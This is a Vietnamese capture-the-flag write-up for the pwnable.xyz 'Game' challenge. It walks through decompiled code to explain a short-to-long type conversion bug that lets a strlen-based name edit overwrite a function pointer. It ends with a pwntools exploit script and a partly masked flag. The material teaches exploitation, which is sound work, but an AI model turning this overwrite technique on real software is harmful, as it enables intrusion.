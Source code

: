# Pwnable.xyz Game
## Analysis
```
void main(void)
{
  int choice;
  
  setup();
  puts("Shell we play a game?");
  init_game();
LAB_00400fcd:
  do {
    while( true ) {
      while( true ) {
        print_menu();
        printf("> ");
        choice = read_int32();
        if (choice != 1) break;
        (**(code **)(cur + 0x18))();
      }
      if (1 < choice) break;
      if (choice == 0) {
                    /* WARNING: Subroutine does not return */
        exit(1);
      }
invalid:
      puts("Invalid");
    }
    if (choice != 2) {
      if (choice != 3) goto invalid;
      edit_name();
      goto LAB_00400fcd;
    }
    save_game();
  } while( true );
}
```
```
void init_game(void)
{
  saves[0] = malloc(0x20);
  cur = (void *)find_last_save();
  printf("Name: ");
  read(0,cur,0x10);
  *(code **)((long)cur + 0x18) = play_game;
  return;
}
```
Hàm init_game malloc 1 chunk có size 0x20, sau khi tìm hiểu có được cấu trúc của 1 chunk:
+ 0x10 bytes chứa tên người chơi
+ 0x8 bytes dùng để ghi điểm
+ 0x8 bytes để ghi địa chỉ hàm sẽ thực thi khi chọn option 1 tại hàm main. Có vẻ ta phải tìm cách ghi đè địa chỉ hàm này thành win
```
void edit_name(void)
{
  size_t size;
  
  size = strlen(cur);
  read(0,cur,size);
  return;
}
```
Hàm edit_name không sử dụng size cố định mà dựa theo độ dài tên trước đó, ta sẽ tận dụng điều này
```
void play_game(void)

{
  int __fd;
  uint ans;
  long in_FS_OFFSET;
  uint rand;
  uint rand2;
  byte i;
  char sample [264];
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  __fd = open("/dev/urandom",0);
  if (__fd == -1) {
    puts("Can\'t open /dev/urandom");
                    /* WARNING: Subroutine does not return */
    exit(1);
  }
  read(__fd,&rand,12);
  close(__fd);
  i = i & 3;
  memset(sample,0,0x100);
  snprintf(sample,0x100,"%u %c %u = ",(ulong)rand,(ulong)(uint)(int)(&ops)[(int)(uint)i],
           (ulong)rand2);
  printf("%s",sample);
  ans = read_int32();
  if (i == 1) {
    if (rand - rand2 == ans) {
      *(short *)(cur + 0x10) = *(short *)(cur + 0x10) + 1;
    }
    else {
      *(short *)(cur + 0x10) = *(short *)(cur + 0x10) + -1;
    }
  }
  else if (i < 2) {
    if (i == 0) {
      if (rand + rand2 == ans) {
        *(short *)(cur + 0x10) = *(short *)(cur + 0x10) + 1;
      }
      else {
        *(short *)(cur + 0x10) = *(short *)(cur + 0x10) + -1;
      }
    }
  }
  else if (i == 2) {
    if (rand / rand2 == ans) {
      *(short *)(cur + 0x10) = *(short *)(cur + 0x10) + 1;
    }
    else {
      *(short *)(cur + 0x10) = *(short *)(cur + 0x10) + -1;
    }
  }
  else if (i == 3) {
    if (rand * rand2 == ans) {
      *(short *)(cur + 0x10) = *(short *)(cur + 0x10) + 1;
    }
    else {
      *(short *)(cur + 0x10) = *(short *)(cur + 0x10) + -1;
    }
  }
  if (local_10 == *(long *)(in_FS_OFFSET + 0x28)) {
    return;
  }
                    /* WARNING: Subroutine does not return */
  __stack_chk_fail();
}
```
Nội dụng hàm play_game khá phức tạp, nhưng đại loại hàm đưa ra câu hỏi, nếu trả lời đúng được cộng 1 điểm, sai bị trừ 1 điểm. Mặt khác, điểm có thể là số âm.
```
void save_game(void)
{
  undefined8 uVar1;
  void *ptr;
  int i;
  undefined8 *ptr2;
  
  i = 1;
  while( true ) {
    if (4 < i) {
      puts("Not enough space.");
      return;
    }
    if (saves[i] == 0) break;
    i = i + 1;
  }
  ptr = malloc(0x20);
  saves[i] = ptr;
  ptr2 = (undefined8 *)saves[i];
  uVar1 = cur[1];
  *ptr2 = *cur;
  ptr2[1] = uVar1;
  *(long *)(saves[i] + 0x10) = (long)*(short *)(cur + 2);
  *(code **)(saves[i] + 0x18) = play_game;
  cur = (undefined8 *)saves[i];
  return;
}
```
Hàm save_game sao chép nội dung của chunk có địa chỉ *cur sang 1 chunk khác, chú ý phần sao chép điểm có ép kiểu từ short thành long. Như vậy, khi diểm ở chunk cũ là 0xffff thì khi sang chunk mới sẽ là 0xffffffffffffffff, qua đó xóa đi các byte null. Sau đó sử dụng edit_name để ghi đè địa chỉ hàm 
## Solution
```
#!/usr/bin/python3
from pwn import *

context.binary = elf = ELF("./challenge", checksec = False)
# con = process()
# gdb.attach(con, gdbscript = "b*0x0400e61")
con = remote("svc.pwnable.xyz", 30009)

con.sendafter(b"Name: ", b"A"*16)

con.sendlineafter(b"> ", b"1")
con.sendlineafter(b"= ", b"1")

con.sendlineafter(b"> ", b"2")

con.sendlineafter(b"> ", b"3")
con.send(b"A"*0x18 + b"\xd6\x09\x40")

con.sendlineafter(b"> ", b"1")

con.interactive()
```
## Flag
```
FLAG{typ3_c0nv3rsi0n_XXXXXXX}
```